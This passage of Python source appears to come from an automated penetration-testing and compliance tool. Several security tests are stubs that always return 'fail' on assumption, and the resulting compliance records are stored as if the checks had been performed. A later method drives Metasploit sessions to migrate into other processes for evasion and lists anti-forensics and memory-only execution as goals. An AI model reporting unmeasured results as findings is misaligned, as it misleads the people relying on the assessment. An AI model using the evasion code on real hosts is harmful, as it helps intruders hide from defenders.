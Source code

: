 ````python
        # This would implement actual change management testing
        return "fail"  # Assume weak change controls

    def _test_backup_systems(self, target: Target) -> str:
        """Test backup system security"""
        # This would implement actual backup testing
        return "fail"  # Assume accessible backups

    def _test_detection_capabilities(self, target: Target) -> str:
        """Test security detection capabilities"""
        # This would implement actual detection testing
        return "fail"  # Assume detection can be evaded

    def _store_compliance_validation(self, target_id: str, result: Dict[str, Any]):
        """Store compliance validation results"""
        with sqlite3.connect(self.db_path) as conn:
            cursor = conn.cursor()

            validation_id = f"validation_{datetime.now().strftime('%Y%m%d%H%M%S')}_{hashlib.md5(str(result).encode()).hexdigest()[:8]}"

            cursor.execute("""
                INSERT INTO compliance_validation
                (validation_id, framework, control_id, requirement, validation_method,
                 result, evidence, risk_level, remediation, target_id)
                VALUES (?, ?, ?, ?, ?, ?, ?, ?, ?, ?)
            """, (
                validation_id,
                result["framework"],
                result["control_id"],
                result["requirement"],
                result["validation_method"],
                result["result"],
                json.dumps(result["evidence"]),
                result["risk_level"],
                result["remediation"],
                target_id
            ))

    def advanced_evasion_techniques(self, session: Session) -> Dict[str, bool]:
        """Implement advanced evasion techniques"""
        logger.info(f"Implementing advanced evasion for session {session.session_id}")

        evasion_results = {
            "process_injection": False,
            "dll_sideloading": False,
            "living_off_the_land": False,
            "memory_only_execution": False,
            "anti_forensics": False
        }

        if not self.msf_client:
            return evasion_results

        try:
            msf_session = self.msf_client.sessions.session(session.session_id)

            # Process injection techniques
            logger.info("Implementing process injection...")
            injection_result = msf_session.run_with_output('run post/windows/manage/migrate')
            evasion_results["process_injection"] = "success" in injection_result.lower()

            # Living off the land techniques
````